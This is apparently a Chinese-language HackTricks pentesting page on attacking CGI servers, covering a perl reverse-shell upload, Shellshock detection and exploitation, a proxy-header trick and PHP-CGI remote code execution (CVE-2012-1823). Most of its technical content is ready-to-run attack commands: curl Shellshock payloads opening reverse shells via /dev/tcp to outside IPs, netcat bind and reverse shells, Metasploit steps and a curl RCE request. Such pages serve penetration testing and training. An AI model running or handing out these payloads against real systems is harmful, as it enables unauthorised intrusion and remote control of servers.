 {% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

通过 8kSec 学院深化您在 **移动安全** 方面的专业知识。通过我们的自学课程掌握 iOS 和 Android 安全并获得认证：

{% embed url="https://academy.8ksec.io/" %}


# 信息

**CGI 脚本是 perl 脚本**，因此，如果您已攻陷可以执行 _**.cgi**_ 脚本的服务器，您可以 **上传 perl 反向 shell** \(`/usr/share/webshells/perl/perl-reverse-shell.pl`\)，**将扩展名** 从 **.pl** 更改为 **.cgi**，给予 **执行权限** \(`chmod +x`\)，并 **通过网页浏览器访问** 反向 shell 以执行它。
为了测试 **CGI 漏洞**，建议使用 `nikto -C all` \(以及所有插件\)

# **ShellShock**

**ShellShock** 是一个影响广泛使用的 **Bash** 命令行 shell 的 **漏洞**，该 shell 运行在基于 Unix 的操作系统中。它针对 Bash 运行应用程序传递的命令的能力。漏洞存在于 **环境变量** 的操控中，环境变量是影响计算机上进程运行的动态命名值。攻击者可以通过将 **恶意代码** 附加到环境变量来利用这一点，该代码在接收到变量时执行。这使得攻击者有可能危害系统。

利用此漏洞，**页面可能会抛出错误**。

您可以通过注意到它使用 **旧版 Apache** 和 **cgi\_mod** \(带有 cgi 文件夹\) 或使用 **nikto** 来 **发现** 此漏洞。

## **测试**

大多数测试基于回显某些内容，并期望该字符串在网页响应中返回。如果您认为某个页面可能存在漏洞，请搜索所有 cgi 页面并进行测试。

**Nmap**
```bash
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```
## **Curl \(反射、盲注和带外\)**
```bash
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi
# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh
```
[**Shellsocker**](https://github.com/liamim/shellshocker)
```bash
python shellshocker.py http://10.11.1.71/cgi-bin/admin.cgi
```
## 利用
```bash
#Bind Shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 8
#Reverse shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
#Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi
#Reverse shell using metasploit
> use multi/http/apache_mod_cgi_bash_env_exec
> set targeturi /cgi-bin/admin.cgi
> set rhosts 10.1.2.11
> run
```
# **代理 \(MitM 到 Web 服务器请求\)**

CGI 为 http 请求中的每个头创建一个环境变量。例如：“host:web.com” 被创建为 “HTTP\_HOST”="web.com"

由于 HTTP\_PROXY 变量可能被 web 服务器使用。尝试发送一个 **头** 包含：“**Proxy: &lt;IP\_attacker&gt;:&lt;PORT&gt;**”，如果服务器在会话期间执行任何请求，您将能够捕获服务器发出的每个请求。

# 旧 PHP + CGI = RCE \(CVE-2012-1823, CVE-2012-2311\)

基本上，如果 cgi 是活动的并且 php 是“旧的” \(&lt;5.3.12 / &lt; 5.4.2\)，您可以执行代码。
为了利用此漏洞，您需要访问 web 服务器的某个 PHP 文件而不发送参数 \(特别是没有发送字符“=”\)。
然后，为了测试此漏洞，您可以访问例如 `/index.php?-s` \(注意 `-s`\)，**应用程序的源代码将出现在响应中**。

然后，为了获得 **RCE**，您可以发送这个特殊查询：`/?-d allow_url_include=1 -d auto_prepend_file=php://input` 和 **要在请求的主体中执行的 PHP 代码。
示例：**
```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://jh2i.com:50008/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```
**有关漏洞和可能的利用信息：** [**https://www.zero-day.cz/database/337/**](https://www.zero-day.cz/database/337/)**,** [**cve-2012-1823**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-1823)**,** [**cve-2012-2311**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-2311)**,** [**CTF 写作示例**](https://github.com/W3rni0/HacktivityCon_CTF_2020#gi-joe)**.**

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

通过 8kSec 学院深化您在 **移动安全** 方面的专业知识。通过我们的自学课程掌握 iOS 和 Android 安全并获得认证：

{% embed url="https://academy.8ksec.io/" %}

{% hint style="success" %}
学习和实践 AWS 黑客攻击：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客攻击： <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
